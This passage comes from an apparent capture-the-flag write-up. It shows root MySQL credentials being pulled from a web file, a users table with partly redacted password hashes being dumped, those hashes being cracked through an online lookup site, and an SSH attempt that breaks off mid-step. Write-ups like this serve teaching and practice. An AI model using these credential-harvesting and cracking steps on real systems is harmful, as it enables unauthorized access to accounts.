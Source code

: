 In `account.php`, we can see the `root` database credentials for the local MySQL instance! So, that means we can run:

```bash
mysql -u root -p
```

And then paste in the password that you get from that `account.php` page. If not familiar, here is how you might go see the databases and tables:

```mysql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.01 sec)

mysql> use webportal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53<.....REDACTED.....>806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 6862<.....REDACTED.....>c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

Why this was interesting was that the password hashes in the `password` field were very short, and could potentially by MD5 hashes. So, using a website like this: [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash), I pasted in those values and we can see what the clear-text passwords are for those of those accounts!

#### SSH'ing In

We attempt to SSH into the server using the MD5 password above but that doesn't work. We do know that we can run that one script file AS the `apaar` account though. So, via your reverse shell above, run:
